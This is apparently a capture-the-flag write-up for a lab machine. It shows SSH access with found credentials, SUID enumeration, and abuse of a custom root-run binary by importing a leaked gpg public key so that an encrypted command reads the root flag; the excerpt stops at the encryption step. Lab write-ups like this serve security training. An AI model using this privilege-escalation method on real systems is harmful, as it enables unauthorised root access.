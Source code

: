 
# foot hold & root
ssh to the victim server using the credential we got.
```console
bibo318@parrot:~/THM/harder$ ssh evs@$IP
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

harder:~$ 
```
now we got foot hold, lets run `suid3num.py` to find suid files.
```
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/usr/local/bin/execute-crypted
------------------------------
```
we found some interesting suid file, let run it.
```console
harder:~$ /usr/local/bin/execute-crypted
[*] Current User: root
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
```
as it said. the program allow us to run command as root with one condition. the command file need to be encypted with  root@harder.local key. I run `gpg -k` to check if there is any key in the key rings. Unfortunately nope. let use `find` to find it. 
```console
harder:~$ find / -name root@harder.local* 2> /dev/null # looking for gpg key
/var/backup/root@harder.local.pub
```
luckly someone left the public key inside `/var/backup/`. now let import the key to `gpg` key ring. if you dont know much about `gpg` run `gpg -h` or do some research by yourself
```console
harder:~$ gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
harder:~$ gpg -k
/home/evs/.gnupg/pubring.kbx
----------------------------
pub   ed25519 2020-07-07 [SC]
      6F99621E4D64B6AFCE56E864C91D6615944F6874
uid           [ unknown] Administrator <root@harder.local>
sub   cv25519 2020-07-07 [E]
```
now let do as what the `/usr/local/bin/execute-crypted` say
1. create a command file by using cho -n some command > cmd
2. encrypt in using the key we just import into gpg key ring
3. execute `/usr/local/bin/execute-crypted`
```console
harder:~$ echo -n cat /root/root.txt > cmd # cat root flag
harder:~$ gpg -e -r Administrator cmd  #encrypt the cmd file
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user
```